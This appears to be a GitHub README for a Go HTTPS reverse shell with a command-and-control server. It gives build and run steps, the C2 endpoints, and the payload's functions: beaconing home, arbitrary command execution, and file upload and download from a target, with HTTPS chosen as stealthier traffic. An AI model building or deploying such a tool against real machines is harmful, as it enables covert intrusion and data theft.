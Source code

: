 # https-reverse-shell-golang

A HTTPS reverse shell implemented in the Go programming language. 

## Prerequisites

* You need to have ```Golang``` installed on your system and have the variables ```$GOPATH``` and ```$GOBIN``` set.
* Install ```go-bindata``` via ```$ go get -u github.com/go-bindata/go-bindata/...```
* Install ```openssl``` in order to generate your cert/key pair.

## Build

In order to build, you need to create a server cert/key pair like this:

```
$ openssl genrsa -out server.key 2048
$ openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```


Put the ```server.cert``` and  ```server.key```  into the corresponding resource directories:

```
c2  
└─resources
│    server.crt
│    server.key
payload
└─resources
│    server.crt

```

Now you need to generate the resource file and build the binary:

```
$ cd c2 && go generate && go build
$ cd payload && go generate && go build
```

Eventually, you can run the binaries:

```
$ ./c2
[+] Server listening on (:4433)
```

```
$ ./payload
[+] Calling home to c2 to get cmd...
```

## Functionality

* Arbitrary command execute
* File upload
* File download

## Details

The payload calls home to the c2 server in an endless loop until it receives the "quit" command. The c2 requests a command from the user upon beacon from the payload. You can send any CLI arguments and upload/download arguments in the form of:

```CMD > upload <localFilePath> <remoteFilePath>```

```CMD > download <remoteFilePath> <localFilePath>```

(localFilePath := on the target machine, remoteFilePath := on the c2 machine)

The c2 server implements the following endpoints:
* ```/getcmd``` - Asks the user for a command to send to the payload
* ```/cmdouput``` - Retrieves the output for the command executed on target machine through payload
* ```/upload``` - Handles upload requests
* ```/download``` - Handles download requests

The communication is encrypted via TLS. The general benefit of a HTTP/S reverse shell over a regular TCP reverse shell is that the traffic looks more legit and thus is stealthier.


## Outstanding improvements

* Implement multi-user (multiple payloads) management
* Implement change directory cmd
